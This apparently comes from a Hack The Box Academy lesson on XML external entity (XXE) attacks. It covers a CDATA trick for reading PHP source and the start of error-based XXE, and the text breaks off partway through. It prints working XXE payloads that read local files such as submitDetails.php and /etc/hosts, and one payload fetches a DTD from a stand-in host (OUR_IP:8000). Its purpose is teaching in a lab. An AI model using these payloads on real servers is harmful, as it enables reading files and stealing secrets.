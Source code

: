 ```xml
<!DOCTYPE email [
 <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
 <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
 <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
 <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
 %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our`xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the`submitDetails.php` file: ![php_cdata](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks.`Try to use this trick to read other files`.

---

## Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be`blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

Let's consider the exercise we have in`/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g.`<roo>` instead of`<root>`), or just reference a non-existing entity, as follows:

![cause_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
